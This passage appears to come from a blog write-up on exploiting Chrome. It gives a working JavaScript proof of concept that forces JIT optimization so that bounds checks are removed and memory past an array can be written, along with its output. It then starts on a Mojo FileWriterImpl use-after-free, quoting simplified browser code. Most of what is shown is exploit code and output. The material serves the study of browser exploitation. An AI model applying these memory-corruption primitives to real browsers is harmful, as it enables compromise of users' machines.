 {{< figure src="/post_assets/006/oob_jit.png" position="center" style="width: 100%; max-width: 700px;" caption="" captionPosition="center" >}}


Therefore, to make the optimizer remove the bounds-checking, we may need to run the function a lot of times before, 
thus triggering the JS engine to compile and optimize our `fun` function, eliminating the bounds checking.

```js
function fun(arg) {
	let x = new Array('x')
	let y = new Array('y')
	x[(arguments.length >> 16) * 3] = 'ehe'
	return y
}

for (let i = 0; i < 10000; i++) fun(1) // trigger optimization

args = []
args.length = 65537
console.log(fun(...args)) // output: ["ehe"]
```

Now, we can see from the output of the above code that we are able to write memory outside array _x_.

![Out-of-Bound screenshots](/post_assets/006/oob_output.png)


## Use-After-Free in Browser Process FileWriterImpl

There is a UAF in the implementation of Mojo Binding's FileWriter component, specifically at FileWriterImpl implementation. Read [Issue 1755 bugtracker](https://bugs.chromium.org/p/project-zero/issues/detail?id=1755).

```c
// simplified
void FileWriterImpl::Write(position, blob, callback) {
  blob_context_->GetBlobDataFromBlobPtr(
      std::move(blob),
      base::BindOnce(&FileWriterImpl::DoWrite, base::Unretained(this), std::move(callback), position));
}
```
